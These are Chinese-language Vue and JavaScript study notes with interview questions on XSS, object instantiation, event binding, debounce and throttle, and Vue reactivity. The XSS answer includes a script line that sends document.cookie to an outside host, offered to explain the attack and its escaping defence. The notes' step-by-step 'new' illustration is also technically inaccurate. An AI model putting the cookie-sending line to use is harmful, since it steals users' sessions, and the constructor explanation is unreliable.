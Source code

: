 # Vue

## day2-2

### 面试题
* xss攻击，与防御
    * 跨域脚本攻击
    ```js
        ​<img src="xxx" onclick="go()" />
        <h4 style="color:#58bc58">点我有惊喜</h4>
        <script>
            localtion.href="http://www.laoxie.com?data="+document.cookie
        </script>
    ```
    * 防御：
        * 对输入输出进行过滤
        ```html
            ​&lt;img src="xxx" onclick="go()" /&gt;
        ```
* 实例化过程经历什么 new String()
    ```js
        function Mayun(){
            // 1. 创建一个对象
            let obj = {};

            //2. 将this指向obj
            Mayun.bind(obj)

            // 3. 执行内部代码，给obj添加属性
            this.xx1 = 'xx1'
            this.xx2 = 'xx2'
            this.xx3 = 'xx3'

            // 4. 改变原型对象
            obj.__proto__ = Mayun.prototype

            // 5. 返回这个对象
            return obj
        }

        let my = new Mayun();// Mayun()

    ```
* 什么叫轮询
    * 用自己的语言表达出来
* 事件绑定方式，和移除方式
```js
    <button onclick="show()">点我有惊喜</button>

    ele.onclick = show; // ele.onclick = null;
    ele.addEventListener('click',show,false);// ele.removeEventListener('click',show,false)

    function show(){
        
    }
```
* 二次封装
    * 提高开发效率
    * 在封装的基础上再封装
* 防抖与节流
    * 目的为了优化性能
    * 节流：只执行第一次，忽略后面所有操作
        * 滚动加载
    * 防抖：只执行最后一次，忽略前面所有操作
        * 百度搜索建议

### 知识点
* 前端三大框架
    * angular
    * react
    * vue
* 渐进式
    * 核心 -> 配套框架、插件 -> 扩展性
* 安装版本
    * 开发版本  development
        * 完整未压缩：调试、测试，本地开发使用
    * 生产版本  production
        * 压缩合并：删除了警告，上线使用
    * CDN
    * npm / yarn

## day2-3

### 面试题
* Vue双向数据绑定的原理
    * Model -> View : getter&setter
    * View -> Model : 事件

    * v-model 的原理：能用什么操作来替代v-model（单向加+事件）
        * {{}}
        * v-bind
* 实例化对象的执行过程
    1. 创建一个对象 vm->Object.prototype
    2. 改变this指向
    3. 改变原型对象的向 vm->Vue.prototype
    4. 执行构造函数中的代码，给vm添加属性
    5. 返回vm
* http协议与ws协议的区别
    * socket心跳

### 复习
* 属性特性
    > 传统方式定义属性，属性特性默认为true，通过Object.defineProperty定义的属性，属性特性默认为false
    * 值属性
        * configurable
        * enumerable
        * writable
        * value
    * 存储器属性
        * configurable
        * enumerable
        * get
        * set

        obj = {
            a:10,
            b:function(){

            },
            get c(){
                return this.a;
            },
            set c(val){
                this.a = val
                // 为所欲为
            }
        }

        obj.b()
        obj.c ;//10
        obj.c = 100
* Vue
    * 指令
        * v-on      @
        * v-bind    :
            * 属性
                * class
                * style
        * v-model
        * v-if/v-else-if/v-else
        * v-for
            * in
            * of
        * v-show
        * 
    * 实例化配置参数
    * 响应式属性
        * 初始化data
        * Vue.set(target,key,val) / vm.$set(target,key,val)
            * target不可以是vm实例和data属性
        * 数组变异方法
    * 架构模式
        * MVC
        * MVP
        * MVVM
    * 思维的转变
        * 关注节点操作 -> 关注数据

### 知识点
* Vue实例化过程
    * 这里定义的data为值属性
    但在实例化后，Vue会通过Object.defineProperty()把他们变成存储器属性（getter&setter）
    并写入vm实例（意味着可以在代码中通过this访问到这些属性）
